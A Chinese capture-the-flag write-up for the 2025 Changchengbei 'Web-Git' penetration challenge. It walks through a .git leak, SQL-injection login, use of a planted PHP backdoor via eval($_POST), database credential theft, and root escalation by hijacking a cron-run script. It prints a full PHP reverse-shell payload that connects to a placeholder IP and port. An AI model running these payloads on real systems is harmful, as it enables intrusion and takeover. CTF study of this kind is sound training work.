# 长城杯2025-渗透Web-Git-先知社区

> **来源**: https://xz.aliyun.com/news/17332  
> **文章ID**: 17332

---

## Web-Git

### flag1

扫描WEB目录发现存在Git泄露（这里是队友扫的，我这图是拿的我后面扫的截图，所以时间对不上。



使用<https://github.com/gakki429/Git_Extract>拉取泄露代码。



读取到flag，全场一血捏。



### flag4

一开始sql万能密码登录了后台，但是什么功能都没有。从后台头像路径，发现同路径下有一个php文件。

发现存在后门，参数a当时随便试两个就对了。



但是这个马是get传参的，蚁剑直接连连不了。可以?a=eval($\_POST[a]);这样就可以连接了。



拿到flag4



### flag3

在数据库里面翻到ryan密码，

挂上代理之后可以用localhost为ip来登录数据库，或者在蚁剑里面连接数据库。本来想用udf提权的，但是报错了。



然后su ryan登录，读取mail即可

这里要注意，如果想用su登录用户的话必须要拿一个有tty的shell，我是用Venom的shell



读取邮件







### flag5

传一个pspy64上去监控一下进程

发现root用户每三分钟执行一个del.py,



可以把del.py里面的命令改成php a.php来弹个root的shell出来。或者写passwd，上线C2等等，方法有很多。

a.php内容：

```
<?php
  $ip='IP';
$port='PORT';
$sock = fsockopen($ip, $port);
$descriptorspec = array(
  0 => $sock,
  1 => $sock,
  2 => $sock
);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
```

据说root目录下的aim.jpg就是flag5。


